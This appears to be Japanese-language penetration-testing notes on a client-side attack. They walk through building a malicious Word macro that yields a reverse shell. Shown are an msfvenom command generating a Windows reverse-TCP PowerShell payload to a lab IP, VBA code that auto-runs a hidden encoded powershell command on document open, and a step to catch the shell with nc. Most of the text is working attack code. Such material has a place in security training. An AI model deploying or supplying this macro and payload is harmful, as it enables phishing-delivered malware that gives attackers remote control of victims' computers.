

# CllentSideAttack

### wordにマクロを含んでリバースシェルを取得

* マクロ用のpowershellリバースシェルを作成する

  ```bash
  sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.132 LPORT=4444 -f psh-cmd
  ```

* マクロを作成する

  * wordを開き、view→macroを選択する

  * mymacroを作成し以下を追加する

    ```vb
    Sub AutoOpen()
    
      MyMacro
      
    End Sub
    
    Sub Document_Open()
    
      MyMacro
      
    End Sub
    
    Sub MyMacro()
    
      Dim Str As String
      <msfvenomで作成し,pythonで50文字ずつに分割した文字列>
      Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
      Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
      Str = Str + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
      ・・・
      CreateObject("Wscript.Shell").Run Str
        
    End Sub
    ```

  * マクロはdocもしくはdocmのみで有効であるため保存する拡張子に留意

  * wordを保存し再度開く。マクロを有効にするボタンがwordファイル上部に表示されること

  * マクロは全体ではなくdocのプロジェクト自体に紐づけるとよい

    

* ncでリバースシェルを待ち受ける